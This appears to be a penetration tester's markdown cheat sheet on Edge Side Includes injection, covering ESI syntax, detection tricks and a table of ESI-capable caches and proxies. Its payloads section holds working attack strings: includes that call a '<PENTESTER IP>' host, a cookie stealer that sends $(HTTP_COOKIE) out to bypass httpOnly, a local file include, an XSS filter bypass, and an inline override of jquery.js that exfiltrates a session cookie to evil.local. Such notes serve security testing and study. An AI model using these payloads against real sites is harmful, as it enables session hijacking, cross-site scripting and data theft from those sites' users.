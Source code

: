 
# ESI Features & Syntax

chech doc [ESI DOC](https://docs.oracle.com/cd/B14099_19/caching.1012/b14046/esi.htm#i654520)


## -Variables

### syntax 
```html
<esi:vars>$(VARIABLE_NAME)</esi:vars>
```

- $(HTTP_USER_AGENT) → Mozilla/5.0 (X11;[…]
- $(QUERY_STRING) → city=Montreal&format=C
- $(HTTP_COOKIE) → _ga=[…]&__utma=[…]
- $(HTTP_HEADER{Cookie}) → _ga=[…]&__utma=[…]

### example  
```html
<esi:vars>$(HTTP_COOKIE{PHPSESSID})</esi:vars>
```


## -Include

### syntax 
```html
<esi:include src="/path/to/file" />
```

### example  
##### //esi/page-1.html:
```html
<html>
<p>This is page 1!</p>
<esi:include src="//api/page-2.html" />
</html>
```
##### //api/page-2.html:
```
<p>This is page 2!</p>
```


## -Assign
### syntax
```html
<esi:assign name="var1" value="value"/>
```



# ESI payloads

```html
// Basic detection
<esi: include src=http://<PENTESTER IP>>

// XSS Exploitation Example
<esi: include src=http://<PENTESTER IP>/<XSSPAYLOAD.html>>

// Cookie Stealer (bypass httpOnly flag)
<esi: include src=http://<PENTESTER IP>/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>

//xss bypass
x=<esi:assign name="var1" value="'cript'"/>
<s  <esi:vars name="$(var1)"/>  >
alert(/Chrome%20XSS%20filter%20bypass/);
</s <esi:vars name="$(var1)"/>  >


## override files (example in nodejs)
<esi:inline name="/js/jquery.js" />
var x = new XMLHttpRequest();
x.open("GET", "//evil.local/?
<esi:vars>$(HTTP_COOKIE{session_cookie})</esi:vars>");
x.send();
</esi:inline>

```



# Detection 

- **inspecting response headers in search for Surrogate-Control: content="ESI/1.0"**
- **we usually need to use a blind attack approach to detect if ESI is in use or not.**
- **Specifically, we can introduce ESI tags to HTTP requests to see if any intermediary proxy is parsing the request and if ESI Injection is possible.**
```html
FOO<!--esi -->BAR → FOOBAR ✅
FOO<!--foo -->BAR → FOO<!--foo -->BAR ❌
```


# ESI-capable software differences

- **Includes**: Supports the <esi:includes> directive
- **Vars**: Supports the <esi:vars> directive. Useful for bypassing XSS Filters
- **Cookie**: Document cookies are accessible to the ESI engine
- **Upstream Headers Required**: Surrogate applications will not process ESI statements unless the upstream application provides the headers
- **Host Allowlist**: In this case, ESI includes are only possible from allowed server hosts, making SSRF, for example, only possible against those hosts

| Software                        | Includes | Vars | Cookies | Upstream Headers Required | Host Whitelist |
|---------------------------------|----------|------|---------|--------------------------|----------------|
| Squid3                          | Yes      | Yes  | Yes     | Yes                      | No             |
| VarnishCache                    | Yes      | No   | No      | Yes                      | Yes            |
| Fastly                          | Yes      | No   | No      | No                       | Yes            |
| Akamai ESI Test Server (ETS)    | Yes      | Yes  | Yes     | No                       | No             |
| NodeJS esi                      | Yes      | Yes  | Yes     | No                       | No             |
| NodeJS nodesi                   | Yes      | No   | No      | No                       | Optional       |
